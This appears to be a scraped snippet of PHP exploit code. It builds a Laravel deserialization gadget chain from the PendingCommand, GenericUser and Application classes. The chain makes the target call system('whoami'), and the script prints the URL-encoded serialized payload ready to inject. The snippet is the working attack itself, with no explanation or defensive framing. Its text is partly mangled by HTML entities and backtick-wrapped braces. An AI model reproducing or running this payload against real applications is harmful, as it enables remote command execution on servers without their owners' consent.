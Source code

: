 exp

```
&lt;?php

namespace Illuminate\Foundation\Testing`{`
    class PendingCommand`{`
        protected $command;
        protected $parameters;
        protected $app;
        public $test;

        public function __construct($command, $parameters,$class,$app)`{`
            $this-&gt;command = $command;
            $this-&gt;parameters = $parameters;
            $this-&gt;test=$class;
            $this-&gt;app=$app;
        `}`
    `}`
`}`

namespace Illuminate\Auth`{`
    class GenericUser`{`
        protected $attributes;
        public function __construct(array $attributes)`{`
            $this-&gt;attributes = $attributes;
        `}`
    `}`
`}`

namespace Illuminate\Foundation`{`
    class Application`{`
        protected $hasBeenBootstrapped = false;
        protected $bindings;

        public function __construct($bind)`{`
            $this-&gt;bindings=$bind;
        `}`
    `}`
`}`

namespace`{`
    $genericuser = new Illuminate\Auth\GenericUser(array("expectedOutput"=&gt;array("0"=&gt;"1"),"expectedQuestions"=&gt;array("0"=&gt;"1")));
    $application = new Illuminate\Foundation\Application(array("Illuminate\Contracts\Console\Kernel"=&gt;array("concrete"=&gt;"Illuminate\Foundation\Application")));
    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand("system",array('whoami'),$genericuser,$application);
    echo urlencode(serialize($pendingcommand));
`}`
```

